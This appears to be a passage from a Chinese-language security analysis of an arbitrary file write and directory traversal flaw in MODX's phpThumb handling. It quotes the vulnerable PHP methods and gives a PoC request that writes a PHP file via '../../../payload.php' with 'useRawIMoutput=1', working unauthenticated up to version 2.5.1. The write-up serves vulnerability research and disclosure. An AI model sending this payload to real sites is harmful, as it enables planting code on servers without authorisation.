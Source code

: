 这里面关键的方法是`RenderToFile()`，可以看到它接收参数`$this->cache_filename`，那么我们可以直接传入`cache_filename`这个变量值。

```php
function RenderToFile($filename) {
    $renderfilename = $filename;
    //一系列检查
    if ($this->RenderOutput()) {
        if (file_put_contents($renderfilename, $this->outputImageData)) {
            $this->DebugMessage('RenderToFile('.$renderfilename.') succeeded', __FILE__, __LINE__);
            return true;
        }
    //...
    return false;
}
```

`RenderToFile()`方法里有`file_put_contents()`函数，文件名是我们传入的`cache_filename`，文件内容是`$this->outputImageData`。如果对内容没有校验的话意味着我们可以写入任意内容，前提是满足`$this->RenderOutput()`为真，进去看一下`RenderOutput()`

```php
function RenderOutput() {
    //...
    if ($this->useRawIMoutput) {
        $this->DebugMessage('RenderOutput copying $this->IMresizedData ('.strlen($this->IMresizedData).' bytes) to $this->outputImage', __FILE__, __LINE__);
        $this->outputImageData = $this->IMresizedData;
        return true;
    }
    //...
}
```

在这里我们需要满足`$this->useRawIMoutput`为真，而这个变量默认值为`false`。实际上`useRawIMoutput`即为我们提到的私有变量，程序虽然默认定义了私有变量的值，但我们还是可以通过`post`把值直接传进去，同时这里也没有检验文件的内容，直接把`$this->IMresizedData`赋值为`$this->outputImageData`，也就是`file_put_contents()`所需要的第二个参数，所以到这里就能构成一个任意文件写入的漏洞。

**构造PoC：**

`cache_filename=../../../payload.php&src=.&ctx=web&useRawIMoutput=1&config_prefer_imagemagick=0&outputImageData=<?php phpinfo();?>`

需要特别注意的是，此处的`cache_filename`与网站相对路径密切相关，往上目录穿越少了反而不能写入文件，而在Windows下测试可以写入Web根目录以外的目录，因为程序内部虽然检查了目录写权限，却并没有限制一个根目录，所以严格来说这里还存在一个目录穿越漏洞。

这个利用在MODX 2.5.1版本及之前可以无需登录直接利用，而在2.6.4版本进行了更严格的权限检查，在处理请求之前增加了这样一段判断代码：

`core/model/modx/modconnectorresponse.class.php` `outputContent()`方法

```php
/* Block the user if there's no user token for the current context, and permissions are in fact required */
if (empty($siteId) && (!defined('MODX_REQP') || MODX_REQP === TRUE)) {
    $this->responseCode = 401;
    $this->body = $modx->error->failure($modx->lexicon('access_denied'),array('code' => 401));
}
```
